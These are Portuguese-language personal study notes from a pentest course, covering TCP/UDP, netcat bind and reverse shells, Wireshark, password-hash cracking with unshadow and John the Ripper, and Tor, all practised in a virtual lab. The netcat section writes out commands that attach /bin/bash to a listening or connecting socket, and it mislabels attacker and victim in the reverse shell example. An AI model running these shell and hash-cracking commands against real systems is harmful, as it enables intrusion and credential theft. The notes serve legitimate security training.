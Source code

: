 # Minhas anotações sobre o Curso de Pentest Womcy

## 09/08 - Resumo

### TCP/IP - conceitos básicos
O TCP é um protocolo orientado a objeto - confiável

Funciona enviando 3 pacotes para abrir a comunicação o three way handshake e para finalizar a comunicação envia 4 pacotes
(detalhar cada pacote)

Ele prioriza a não perder pacotes

UDP - considerado como não confiável
Utilizado em situações que a velocidade é importante mas a perca de pacote não
Ex.: Serviços de voz, streaming, video conferência, serviços de resolução de nomes(DNS)

Algumas vezes ambos podem ser combinados exemplo chat e video em uma chamada do Microsoft Teams

Segue um exemplo de portas sobre cada um dos protocolos:https://pt.wikipedia.org/wiki/Lista_de_portas_dos_protocolos_TCP_e_UDP

### Conexão via bind shell e reverse shell - NetCat
Pré-requisitos: Comandos básicos do linux

Ajuda do netcat:
```
nc -h
```

Na aula de hoje comentamos o arquivo de interfaces /etc/network/interfaces
Estando da seguinte maneira
```
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet dhcp
auto eth1
iface eth1 inet static
        address 192.168.11.110
#       gateway 192.168.11.1
        netmask 255.255.255.0
```

Assim conseguiremos a comunicação da rede externa em nossa placa NAT (eth0) e na rede interna inet (eth1)

Reiniciando o serviço de rede da máquina ou a própria máquina

Na máquina do metaspolitable executamos(vítima)
nc -nvlp 1000

Para abrir a comunicação e ficar "ouvindo" essa porta

o mesmo realizamos na maquina atacante kali

sudo nc <ipSemSinaisdaMaquina> 1000

Assim temos a comunicação entre máquinas
  
No entanto, temos somente essa conexão e queremos a execução de um programa remoto(bindshell)

Na máquina vítima, executamos então 
nc -nvlp 1000 -e /bin/bash

No atacante(idem anterior):
  sudo nc 192.168.10.130 1000
  
  
Reverse shell - Posso fazer a minha vítima se conectar em mim e termos um acesso 
Na máquina atacante:
  nc <ipvitima> 1000 -e /bin/bash

  Na máquina vítima:
nc -nlp 100 -v
  
Sendo assim bem díficil de ser detectado tal

Mais informações em: https://github.com/dantesilva/curso-tecnicas-pentest/blob/main/Bind-and-reverse-shell.md do mestre @dantesilva
  
Em suma uma ferramenta do tipo canivete suíço, seja após um acesso na vítima realizado com sucesso ou como uma ferramenta no dia a dia, diante uma impossibilidade de acesso

## 11/08 - Resumo

### Wireshark
Se trata de um analisador de protocolos, capturando na rede as informações trafegadas, uma espécie de Sniffer(como um cão farejador), estando entre as 5 melhores juntamente com o TCPDump e outras

Ele pode ser executado tanto via terminal como no servidor gráfico. Um dos seus cores é a libpcap, tendo assim compatibilidades com demais ferramentas
        
Iniciamos abrindo o Wireshark e selecionando a placa de rede de onde queremos capturar pacotes
![image](https://user-images.githubusercontent.com/25257860/129117367-b89097a4-69be-4f37-bb59-06b5f5df1582.png)
        
Selecionamos assim a eth0 que é nossa placa configurada em uma rede NAT do virtualbox e tem acesso a internet
        
Para gerar tráfego de rede acessamos o Firefox e alguns sites, podendo assim observar as conexões do three way handshake
![image](https://user-images.githubusercontent.com/25257860/129118655-8b6a70eb-64bc-45d4-a431-bfea271938c4.png)
        
![image](https://user-images.githubusercontent.com/25257860/129119034-840d05be-b9a7-453e-9a81-2523e5ccf75e.png)

Com o botão direito em uma das conexões, podemos clicar em follow e ver os detalhes
![image](https://user-images.githubusercontent.com/25257860/129121930-ada531f8-af2e-4ba9-a9b7-0db8832577df.png)

Exemplo de uma conexão ssh filtrando pela porta
![image](https://user-images.githubusercontent.com/25257860/129122170-653846ae-7198-46f8-836b-d2575a59ce39.png) 
        
encontrando assim uma vulnerabilidade expondo a versão do ssh
![image](https://user-images.githubusercontent.com/25257860/129122206-27327636-fd91-4cc4-a6ca-b2abaee3dff9.png)

##16/08 e 18/08 - Licença médica
        
##23/08 - alterada para 24/08 - não pude comparecer
hash , criar , comparar, e sites que descriptografa os hash com listas pre salvas em banco de dados

##25/08 - hashs e John the reaper, unshadow e hash identifier, tor
       
No arquivo /etc/passwd conseguimos ver todos os usuários cadastrados no linux
![image](https://user-images.githubusercontent.com/25257860/130874145-ed8a438c-3443-49b2-b5e5-683c4c7daa3a.png)

No arquivo /etc/shadow
![image](https://user-images.githubusercontent.com/25257860/130874066-1569d304-6177-4316-9df7-a004113269a2.png)
        
Por mais que tenhamos duas senhas iguals em usuários diferentes o linux não gerará o mesmo hash devido ao componente de segurança cript por meio do uso do salt https://man7.org/linux/man-pages/man3/crypt.3.html

Um algoritmo dentro do salt traz dois caracteres aleatórios e por meio desses é gerado o hash diferente dos demais
![image](https://user-images.githubusercontent.com/25257860/130875174-a6a6122e-c4f0-4493-8771-ee7d4b68eeab.png)

assim copiamos os arquivos citados, usando o unshadown e atraves do Jonh the reaper usando os arquivos foi possível encontrar as senhas mais faceis, pois o unshadow muda para a forma antiga que o linux gerava os hashs e assim trabalha em cima desses
O unshadown junta os dois arquivos
     
unshadow passwd1 shadow1 > vitima
        
![image](https://user-images.githubusercontent.com/25257860/130878477-3ddc1406-73ad-4313-a538-d23b9c6b8652.png)

  

se vc quiser editar a lista padrão do John -> /usr/share/john/password.lst

se quiser testar uma lista que vc criou -> --wordlist[=arquivoquevccriou]

Conseguimos também descobrir o possível hash, no exemplo abaixo geramos com md5 e o hash identifier descobriu tal
![image](https://user-images.githubusercontent.com/25257860/130878038-36c49f7e-bd63-4173-aebd-966936adafad.png)

        
Conceitos:
surface web - aberta para todos entrar, sites normais
        
deep web - sites ou acessos a serviços não abertos a todos. Seu email, wpp, telegram, contas pessoais não abertas para a internet. Exemplo suas conversas não estão abertas a todos

dark web - contem uma conexão com alto nível de criptografia. Acessível através do tor. Além de passar por diversos servidores em rotas diferentes, sendo praticamente impossível a rastreabilidade
        
temos o protocolo tor e o navegador tor.

É recomendável sempre utilizar uma máquina virtual
        
fizemos a instalação do tor atraves de apt-get install tor torbrowser-launcher
outra forma seria seguindo esse tutorial: https://techstart.xyz/linux/como-instalar-o-tor-no-kali-linux-apt/

Se apresentar essa tela ao abrir e clicar em conect você já está navegando na darkweb
![image](https://user-images.githubusercontent.com/25257860/130879753-cbb844df-ad4e-46dc-831c-08e61ac1b731.png)

Os endereços são diferentes na darkweb, são maiores que os normais e não tem wwww, você poderá pesquisar sites da darkweb para localizar esses

ex.:
    https://darkweburls.com/#:~:text=People%20often%20refer%20to%20dark%20web%20urls%20as,that%20have%20their%20IP%20addresses%20hidden%20or%20masked

## 31/08 - 

Há a diferença entre um trabalho de pentest e redteam. Ambos são executados com conhecimento da empresa, porém o red team ele é mais silencioso, ou seja, tentando executar ataques evitando ser detectado, com isso geralmente 
Já no pentest, esse causa um maior ruído na rede sendo facilmente detectado.

Realizamos o download e instalação do windows 10 pro, para que utiliza windows foi necessário realizar o download da ferramenta de downlod de mídia da microsoft em:
https://www.microsoft.com/en-us/software-download/windows10ISO

![image](https://user-images.githubusercontent.com/25257860/131585896-473944e1-c5d9-4695-bfcb-1bc14b217ef4.png)

![image](https://user-images.githubusercontent.com/25257860/131585920-85714684-973c-4f6b-87e2-350acbd02faa.png)

![image](https://user-images.githubusercontent.com/25257860/131585935-cdee1966-8408-48c5-800e-b247848dcc86.png)

![image](https://user-images.githubusercontent.com/25257860/131585948-b556be6b-2d28-4fa7-968b-d9659ffac2db.png)

![image](https://user-images.githubusercontent.com/25257860/131586017-b9d963d4-02e5-43d8-85ff-975af2026e6c.png)

![image](https://user-images.githubusercontent.com/25257860/131586028-79192fe2-2b85-460e-a5d8-09fc2766ccc7.png)

Assim logo após o download e verificação da máquina virtual, basta inserir essa no virtualbox e instalar
        Recomendações: Tamanho do disco como 30gb dinamicamente alocado

Configuramos assim após a instalação do windows a rede
![image](https://user-images.githubusercontent.com/25257860/131590447-f1d9fc7d-0aaa-496e-a782-c6f73111d747.png)

![image](https://user-images.githubusercontent.com/25257860/131590479-c47799d6-93d3-4d28-a7dd-1b56116d1590.png)

![image](https://user-images.githubusercontent.com/25257860/131590890-fd812335-9ece-4492-ae97-6018d7716296.png)

![image](https://user-images.githubusercontent.com/25257860/131592231-328ecd75-b4b6-4de9-bc86-94f3d2c43ac2.png)

